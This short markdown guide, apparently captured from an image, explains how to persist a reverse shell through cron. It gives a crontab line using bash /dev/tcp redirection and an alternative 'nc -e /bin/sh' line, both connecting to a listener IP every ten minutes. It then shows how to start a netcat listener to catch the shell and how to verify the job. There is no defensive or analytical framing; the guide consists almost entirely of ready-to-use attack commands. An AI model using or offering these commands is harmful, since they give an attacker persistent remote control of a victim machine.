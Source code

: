 ```yaml
---
legal-banner: true
---
```


### **Step 1: Create the Cron Job**

1. Open the crontab editor:
    `crontab -e`
2. Add the following line to create a cron job that runs every 10 minutes:
    `*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196`
3. Alternatively, use netcat for the reverse shell:
    `*/10 * * * * nc -e /bin/sh 192.168.1.21 5556`
4. If you need to specify a user, add the user before the command:
    `*/10 * * * * pelle /path/to/binary`

### **Step 2: Verify the Cron Job**

1. Check if the cron service is active:
    `service crond status`
2. If the cron service is not started, start it:
    `service crond start`

### **Step 3: Set Up a Netcat Listener**

1. On your local machine, set up a netcat listener to catch the reverse shell connection:
    `nc -lvp 5556`

### **Step 4: Troubleshooting and Verification**

1. Verify that the cron job is running:
    `crontab -l`
2. Check the status of the cron service again if needed:
    `service crond status`
    `pgrep cron`
4. Ensure your netcat listener is ready and waiting for connections:
    `nc -lvp 5556`